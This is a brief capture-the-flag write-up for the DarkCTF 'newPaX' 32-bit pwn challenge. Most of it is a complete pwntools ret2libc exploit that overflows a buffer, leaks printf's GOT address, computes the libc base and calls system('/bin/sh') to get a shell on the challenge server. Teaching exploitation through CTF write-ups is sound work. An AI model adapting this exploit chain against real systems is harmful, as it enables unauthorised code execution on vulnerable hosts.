

## DarkCTF: newPaX [pwn]
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.

#### I solved this using ret2libc, but the author had another 'intended' way of solving it (I'll update this later). Similar to roprop, but this time in 32-bit. There are a only a few functions in the binary to which we can perform rop with. My plan was to leak printf's got address then proceed with the usual ret2libc approach.
```python
from pwn import *

#:
p = remote('pwn.darkarmy.xyz', 5001)
#p = process('./newPaX')
binary = ELF('./newPaX', checksec = False)

#: Stage 1
exploit = cyclic(52)
exploit += p32(binary.symbols['printf'])
exploit += p32(binary.symbols['main'])
exploit += p32(binary.got['printf'])
p.sendline(exploit)

#: Get libc from leak
libc = ELF('libc6-i386_2.27-3ubuntu1.2_amd64.so', checksec = False)

printf_leak = u32(p.recv()[:4])
print('[*] printf leak: {}'.format(hex(printf_leak)))
libc.address = printf_leak - libc.symbols['printf']
print('[*] libc base: {}'.format(hex(libc.address)))

#: Stage 2
exploit = cyclic(52)
exploit += p32(libc.symbols['system'])
exploit += p32(libc.symbols['exit'])
exploit += p32(libc.search('/bin/sh').next())
p.sendline(exploit)
p.interactive()
```
